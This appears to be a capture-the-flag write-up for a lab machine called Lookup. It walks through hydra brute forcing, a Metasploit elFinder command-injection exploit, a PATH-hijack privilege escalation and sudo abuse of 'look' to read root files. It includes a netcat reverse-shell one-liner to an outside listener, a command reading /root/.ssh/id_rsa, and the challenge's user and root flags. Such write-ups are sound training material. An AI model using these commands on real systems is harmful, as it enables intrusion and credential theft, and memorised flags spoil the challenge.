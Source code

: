 # Lookup
(flags are at the end of the writeup)

### Lookup
Initial scan shows port 22 and 80 open: 

    # Nmap 7.94SVN scan initiated Wed Nov 27 17:24:12 2024 as: /usr/lib/nmap/nmap --privileged -p22,80 -sC -sV -oN scan 10.10.65.102
    Nmap scan report for lookup.thm (10.10.65.102)
    Host is up (0.061s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
    |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
    |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Login Page
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

If I try to access the webpage, I get redirected to `lookup.thm`:<br />
![image](https://github.com/user-attachments/assets/084acc68-fc20-4967-b497-99d031da7a78)<br />
So add the following line `10.10.65.102 lookup.thm` to the `/etc/hosts` file. It seems like a basic login page. If I try to access with basic credentials such as `admin:password`, I get the following response:<br />
![image](https://github.com/user-attachments/assets/c71eabe3-d2be-4cca-8991-91672308e8a7)<br />
Which is a weird way of handling errors. I tried `sqlmap` but nothing. I have to dig somewhere else.<br />
Next thing I try is to enumerate directories using gobuster: `gobuster dir -u lookup.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt` but nothing was found. <br />
Now I try to enumerate subdomains. I found the subdomain `www.lookup.thm` but it's the same as `lookup.thm` so nothing there. Next, I noticed that if I tried logging with user `admin`, I get the reponse "Wrong password". But if I try to log in with, for example, "john", I get "Wrong username or password." This means that admin should be a valid user. So I try to login into the admin's account using bruteforce with hdyra: `hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password"` and it finds something!<br />
![image](https://github.com/user-attachments/assets/d3a9e3c4-b445-4844-bbc6-d38ed1491c6b)<br />
Login fails.. but something strange happens, look:<br />
![image](https://github.com/user-attachments/assets/cec66cdd-cebc-4e4f-8685-5639592ea325)<br />
If I use credentials `admin:password123`, the server responds with "Wrong username or password", which is incoherent with the fact that admin is a valid user. This is really strange and I'm not sure why it behaves like that. But my guess is that it might do this for some server misconfiguration which shows this message if the password is a valid password! So the server might have this weird behaviour:

    1) if username and password are correct --> successful login
    2) if username is incorrect --> wrong username or password
    3) if username is correct but password doesn't exist on the DB --> wrong password
    4) if username is correct and password exists on the DB, but they don't match --> wrong username or password

I know, it's strange, but I don't have any other explanation for that. So since `password123` might be valid, let's try a password spraying attack! I'll bruteforce usernames using this password with hydra: <br />
![image](https://github.com/user-attachments/assets/b9781d2c-324f-47ca-b71d-aee99e19416c)<br />
I found a valid set of credentials! `jose:password123`. If I try to log in, I get redirected to `files.lookup.thm`, so let's add it on the /etc/hosts file.<br />
![image](https://github.com/user-attachments/assets/ff5d452a-3f5b-4b33-b7c2-994bad37727b)<br />
ElFinder is an opensource file management software that wants to offer a desktop-like experience. The version is `2.1.47`. Searching online, I found that this version is vulnerable to command injection, and the exploit is available on metasploit! So open `msfconsole` and run the exploit with the following commands:

    use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
    set lhost YOUR_IP
    set rhosts files.lookup.thm
    run

And it should open a meterpreter session. Now, I can't use metasploit, so I used the `shell` command to drop to a system shell, and then opened a reverse shell on another terminal because I really don't know how to use meterpreter very well, I need to do a tutorial. For the reverse shell I opened a netcat listener on my machine and then used then from the dropped shell I run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.90.188 5555 >/tmp/f`.
First thing I notice: the user `think` has the user flag, and inside his home directory I see a `.passwords` file that I can't read. So my guess is that I need to find a way to read that file. <br />
Using linpeas on the target system, I found an interesting binary that might be exploited:<br />
![image](https://github.com/user-attachments/assets/883cfbee-381e-4cee-953c-747b15f65b58)<br />
This is how it behaves: <br />
![image](https://github.com/user-attachments/assets/5122c223-5870-418f-bfa3-8e5f482aa70d)<br />
So it runs the `id` command to find out the user, and then looks for `/home/%user%/.passwords`. I think that my goal is to somehow fool this binary into believing that I'm actually the user `think`.<br /><br />
I decided to analyze this binary using IDA. Here's the main structure: <br />
![image](https://github.com/user-attachments/assets/20a4cbee-8f1d-47d6-882d-74d6eac5f44a)<br />
I'm used to work with the CDECL or STDCALL calling conventions from university, because we only analyzed 32 bit windows executables. This is the first time I'm trying to analyze an ELF file, but it seems very similar. The main diffence I need to know is that the arguments of functions are not pushed on the stack, but are stored on registers. Specifically `rdi`, `rsi`, `rdx` and `rcx`.<br /><br />
From this first block we can see that the binary is calling `popen` with `id` as parameter, so it wants to execute the `id` system command. <br />
This is another interesting block: <br />
![image](https://github.com/user-attachments/assets/7657b367-a033-4068-bd89-6c77f12c19f8)<br />
The binary takes the stdoutput of the `id` command, and then ignores the user-ID (the integer) and only considers the username. Here "uid=%u(%[^)])" is a paramenter of `fscanf` which specifies to ignore the UID, and only take the string that is inside the first two parenthesis. For example, if I now run `id`:<br />
![image](https://github.com/user-attachments/assets/913cb855-f12b-4eb4-aa56-401d2b9031e9)<br />
This binary will only consider the string underlined in red, which is `www-data`.<br />
At this point it tries to read the .passwords file, just like I guessed earlier:<br />
![image](https://github.com/user-attachments/assets/c9b61b17-9bc3-4016-a479-07e23c67c7b0)<br />
So I think I know where the vunlnerability lies. The binary is calling the `id` command, but not `/usr/bin/id` or whatever; the path is relative, not absolute. This means that I can create a custom `id` command on any directory, for example /tmp/, and then change the `PATH` environment variable to search for binaries inside /tmp/ first. So let's try it. I created the custom `id` command inside /tmp/, and it prints echos a string on stdoutput, built to fool the `pwm` binary that I'm actually the user `think`. The code can be found in this folder in the file `fake_id`. Remember to call it `id` and to make it executable with `chmod +x id`. Now we want to change the PATH environment variable: run `export PATH=/tmp:$PATH`. Now if I run `id`:<br />
![image](https://github.com/user-attachments/assets/6cbecb52-7293-410e-8376-a33ac0de5a40)<br />
It executes my `fake_id`. The setup is ready, let's run the vulnerable binary: <br/ >
![image](https://github.com/user-attachments/assets/1c753f57-ae4f-4d84-a83c-e1c1700bf7ba)<br />
It worked! We have a list of passwords! I will now copy this wordlists in a file, and then will use it to bruteforce an ssh login as the user `think`. The command is `hydra -l think -P passwords ssh://10.10.124.210`. And the credentials are `think:josemario.AKA(think)`.<br />
Time to become root. If I run `sudo -l` and prompt the password, I can see that I have sudo privileges on the following binary: <br />
![image](https://github.com/user-attachments/assets/ef14348a-3b6d-4978-b727-99cbcc82607f)<br />
I didn't know this binary. But apparently is a well known binary that will show you all the words (taken from a dictionary in the file system) that start with the input that you provide. I found on [GTFObins](https://gtfobins.github.io/gtfobins/look/#sudo) a way to exploit it to read any files we want, so I used it to read the root flag: <br />
![image](https://github.com/user-attachments/assets/1a95beda-001c-4c3f-9497-8a209979f0ad)<br />
If I wanted to used it to become root, one possible way is to read the private rsa key with `sudo /usr/bin/look '' /root/.ssh/id_rsa`, and then use it to login with ssh. Have a nice rest of your day :)

- What is the user flag? `38375fb4dd8baa2b2039ac03d92b820e`
- What is the root flag? `5a285a9f257e45c68bb6c9f9f57d18e8`
